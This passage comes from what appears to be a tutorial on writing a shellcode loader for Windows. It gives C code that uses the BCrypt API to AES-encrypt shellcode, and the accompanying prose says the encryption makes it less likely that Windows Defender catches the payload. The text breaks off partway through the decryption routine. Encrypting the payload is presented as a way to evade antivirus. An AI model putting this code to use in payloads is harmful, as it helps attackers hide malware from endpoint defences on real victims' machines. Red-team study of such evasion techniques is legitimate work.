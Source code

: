 ```C
    }

    // Perform encryption
    status = BCryptEncrypt(hKey, (BYTE*)plaintext, plaintextSize, NULL,
        NULL, 0, *ciphertext, cbCiphertext,
        ciphertextSize, BCRYPT_BLOCK_PADDING);
    if (status != 0) {
        free(*ciphertext);
        BCryptDestroyKey(hKey);
        BCryptCloseAlgorithmProvider(hAlgorithm, 0);
        printf("BCryptEncrypt failed: 0x%x\n", status);
        return FALSE;
    }

    // Cleanup
    BCryptDestroyKey(hKey);
    BCryptCloseAlgorithmProvider(hAlgorithm, 0);
    return TRUE;
}
```
If all goes well, we succeed in deriving a key and encrypting the shellcode. But we also need an AES decryption routine. The use of AES routines to keep our payload safe further reduces the likelihood of Windows Defender catching us.


```C
// AES Decryption Function
BOOL AESDecrypt(const BYTE* ciphertext, DWORD ciphertextSize, const BYTE* key,
    BYTE** plaintext, DWORD* plaintextSize) {
    BCRYPT_ALG_HANDLE hAlgorithm = NULL;
    BCRYPT_KEY_HANDLE hKey = NULL;
    NTSTATUS status;

    // Open AES provider
    status = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM,
        NULL, 0);
    if (status != 0) {
        printf("BCryptOpenAlgorithmProvider failed: 0x%x\n", status);
        return FALSE;
    }

    // Set ECB mode
    status = BCryptSetProperty(hAlgorithm, BCRYPT_CHAINING_MODE,
        (BYTE*)BCRYPT_CHAIN_MODE_ECB,
        sizeof(BCRYPT_CHAIN_MODE_ECB), 0);
    if (status != 0) {
        BCryptCloseAlgorithmProvider(hAlgorithm, 0);
        printf("BCryptSetProperty failed: 0x%x\n", status);
        return FALSE;
    }

    // Create key handle
    status = BCryptGenerateSymmetricKey(hAlgorithm, &hKey, NULL, 0,
        (BYTE*)key, AES_KEY_LENGTH, 0);
    if (status != 0) {
        BCryptCloseAlgorithmProvider(hAlgorithm, 0);
        printf("BCryptGenerateSymmetricKey failed: 0x%x\n", status);
        return FALSE;
    }

    // Get output buffer size
    DWORD cbPlaintext = 0;
    status = BCryptDecrypt(hKey, (BYTE*)ciphertext, ciphertextSize, NULL,
        NULL, 0, NULL, 0, &cbPlaintext, BCRYPT_BLOCK_PADDING);
```